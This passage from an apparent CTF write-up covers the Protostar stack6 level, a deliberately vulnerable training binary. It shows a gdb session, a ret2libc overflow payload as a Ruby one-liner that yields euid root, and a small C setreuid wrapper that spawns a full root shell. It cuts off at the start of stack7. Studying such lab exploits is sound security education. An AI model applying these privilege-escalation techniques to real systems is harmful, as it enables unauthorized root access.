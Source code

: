 (gdb) r
Starting program: /home/user/fixenv/.launcher 

(gdb) x /10s $esp
...
0xbfffff0e:	 "6:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbfffff4e:	 "SHELL=/bin/sh"

(gdb) x /s 0xbfffff4e+6
0xbfffff54:	 "/bin/sh"
{% endcodeblock %}

{% codeblock %}
user@protostar:~/fixenv$ (ruby -e 'print "A"*80 + [0xb7ecffb0].pack("V") + "FAKE" + [0xbfffff54].pack("V")'; cat -) | ./r.sh /opt/protostar/bin/stack6 
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA???FAKET???
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
{% endcodeblock %}

Without `setreuid()` call we have only `euid=0`, so we prepare this shell wrapper:
{% codeblock lang:c escalate.c %}
#include <stdio.h>

int main(int argc, char **argv)
{
        setreuid(geteuid(), geteuid());
        execv("/bin/sh", NULL);
}
{% endcodeblock %}

{% codeblock %}
user@protostar:~/fixenv$ (ruby -e 'print "A"*80 + [0xb7ecffb0].pack("V") + "FAKE" + [0xbfffff54].pack("V")'; cat -) | ./r.sh /opt/protostar/bin/stack6 
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA???FAKET???
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
/tmp/escalate
id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}

## Protostar Stack7
{% codeblock lang:c stack7.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;
